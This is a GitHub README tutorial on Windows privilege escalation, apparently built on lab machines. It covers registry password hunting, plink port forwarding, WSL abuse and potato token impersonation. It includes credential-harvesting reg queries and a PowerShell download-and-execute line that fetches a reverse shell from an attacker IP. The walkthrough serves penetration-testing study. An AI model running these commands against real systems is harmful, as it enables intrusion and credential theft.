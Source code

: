 # Windows-Privilege-Escalation

In this, we will start with an low privilege shell on the box, and will try to find out ways to escalate our privileges to get system level access on the machine. At this stage, we don't know anything about the machine. We'll enumerate the machine to find out anything that will help us to escalate our privileges.

## Required Tools
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Nishang](https://github.com/samratashok/nishang)
- [Metasploit-local exploit suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [Winexe](https://tools.kali.org/maintaining-access/winexe)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## Contents
- [Escalation Path Password and Port Forwarding](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Password--Port-Forwarding)
- [Escalation Path Windows Subsystem for Linux (WSL)](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Escalation-Path-Windows-Subsystem-for-Linux-(WSL))
- [Token Impersonation](https://github.com/ayushpathak29/Windows-Privilege-Escalation#Token-Impersonation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)
- [](https://github.com/ayushpathak29/Windows-Privilege-Escalation)

### Escalation Path Password and Port Forwarding

1. Lets start enumerating the box with an low priviliged shell.
![Initial shell](images/chatterbox/2.png)

2. Firstly, run ```systeminfo``` to find out basic information about the machine.
![02](images/chatterbox/2.png)

3. After that, we list the other user accounts on the box by command ```net user```. To view our own user's information in a bit more detail type ```net user username``` username = alfred in this case.
 ![03](images/chatterbox/4.png)

4. Now, let's find out Services that are only available from inside. ```netstat -ano```
![04](images/chatterbox/5.png)

We found out that SMB and some other services are running inside the machine on local address and are only accesible from inside the box. We don't know credentials of any user/service yet. So let's enumerate some passwords. 

5.So let's enumerate some cleartext passwords in Registry.
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
![05](images/chatterbox/6.png)

Great, we found out cleartext password of Admin User.

6. Now we will use [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) to port forward that internal SMB service. First of all, let's download the plink file into our machine.
![06](images/chatterbox/7.png)

7. Now forward port to your kali machine by typing the following command in the machine.
```plink.exe -l root -pw password <ip> -R 445:127.0.0.1:445```
This will allow us to access the SMB service from our kali machine.

8. Now you will get into your own terminal. Enter the following command and see that we are succesfully connected to the port.
![07](images/chatterbox/9.png)

9. Now, we'll use winexe tool to execute commands on windows box and try to login into the machine with the password we got earlier from Winlogon.
![07](images/chatterbox/10.png)

And we successully got loged-in as a administrator and escalated our privileges.

### Escalation Path Windows Subsystem for Linux (WSL)

1. 1. Lets start enumerating the box with an low priviliged shell.
![Initial shell](images/secnotes/1.png)

2. Let's find out if there is any bash.exe or wsl.exe hidden in the machine.
![Initial shell](images/secnotes/2.png)

3. Interesting, we find out both files, now lets run the wsl.exe and give it the "whoami" command to find out under which user is this running.
![Initial shell](images/secnotes/3.png)
Great! It's running under the root user. Now you can try something like ```wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'``` to get a shell if this works. But here we'll use another method.

4. Let's run the bash.exe file, this will bring us a bash command prompt.
![Initial shell](images/secnotes/4.png)
We have not escalated our privileges yet, so don't get excited seeing "root". We are in linux shell under the windows machine. Now let's enumerate this if we can find something interesting.

5. Under .bash_history we got credentials of SMB for Admin user.
![Initial shell](images/secnotes/5.png)

6. Let's try to login into SMB with the credentials we got.
![Initial shell](images/secnotes/6.png)

7. Great, it's working and we are able to login into SMB as admin user but this is not a shell, so let's get a semi-interactive shell with smbexec.
![Initial shell](images/secnotes/7.png)

### Token Impersonation and Potato Attacks

1. Let's start our enumeration by looking for privileges of our user by running ```whoami /priv```. See, we got SeImpersonatePrivilege is "Enabled".
![Initial shell](images/jeeves/1.png)

2. Let's run [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find out exploits for this machine. Run ```systeminfo``` command and copy its output in a file in your kali machine and run the Exploit suggester script.
![Initial shell](images/jeeves/2.png)
We see, it suggests us [Hot-Potato](https://pentestlab.blog/2017/04/13/hot-potato/) exploit for this machine. 

3. Let's download a [Potato](https://github.com/ohpe/juicy-potato/releases) executable into our machine.
![Initial shell](images/jeeves/3.png)

4. Running potato executable
![Initial shell](images/jeeves/4.png)

5. Now create a bat script with the following data and put it into the windows machine.
```powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3:5555/sh.ps1')``` 
where sh.ps1 is [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/tree/master/Shells)

6. Now start a nc listener in your kali machine and run the potato executable as in the following screenshot.  
![Initial shell](images/jeeves/5.png)

7. As you can see we can successfully escalated our privileges.
![Initial shell](images/jeeves/6.png)

There are also other metasploit modules available which can perform this task automatically.

### Runas







































### Resources
- [Fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html)
- [OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
